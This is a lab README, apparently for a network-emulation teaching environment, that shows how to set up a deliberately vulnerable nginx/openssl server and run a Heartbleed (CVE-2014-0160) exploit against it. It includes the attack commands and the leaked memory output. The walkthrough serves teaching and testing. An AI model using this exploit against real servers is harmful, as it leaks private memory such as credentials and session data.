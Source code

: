 # Heartbleed attack

This example covers the Heartbleed attack. The vulnerable https server is setup
on the host node (10.0.1.10/24).

## Starting the vulnerable server
Start the experiment specified in `service.imn` and issue the
[start_https.sh](start_https.sh) command to start the https server on the host
node:
```console
# ./start_https.sh
```
After executing the command check with the `ps` and `netstat` commands whether
the https server is running on the host node.
```console
root@host:/ # ps ax
 PID TT  STAT    TIME COMMAND
 11168 ??  IsJ  0:00.00 rpcbind
 11170 ??  IsJ  0:00.00 inetd
 11281 ??  SsJ  0:00.00 nginx: master process /usr/local/nginx/sbin/nginx
 11282 ??  SJ   0:00.00 nginx: worker process (nginx)
 11284  0  SJ   0:00.01 csh
 11298  0  R+J  0:00.00 ps ax
root@host:/ # netstat -an4
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 *.443                  *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.111                  *.*                    LISTEN
udp4       0      0 *.783                  *.*
udp4       0      0 *.111                  *.*
```

## Executing the attack
On the virtual nodes we have previously deployed a vulnerable version of openssl
which is used by nginx. The script [heartbleed.sh](heartbleed.sh) is used to execute the
attack. It copies the [heartbleed.py](heartbleed.py) script on the Attacker node
and executes it. The python script used to exploit the server can be found
[here](https://gist.github.com/eelsivart/10174134).

The execution result is as follows:
```console
# ./heartbleed.sh
defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed
(CVE-2014-0160)
##################################################################
Connecting to: 10.0.1.10:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.0.1.10:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################
.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......pt-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive

....h.F __..3.R..h
```

If the heartbleed script is ran repeatedly without the server actually
processing new data the output will be the same. If we issue external requests
from the PC node, we force the server to process some data and that causes a
change in the leaked part of memory:
```console
# himage PC wget -r --no-check-certificate https://10.0.1.10/
```

After issuing the request we can see that the output of the heartbleed script
changes:
```console
% sudo ./heartbleed.sh
defribulator v1.16
...
##################################################################
.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#........\.>.H....m..W.\...U....K
```
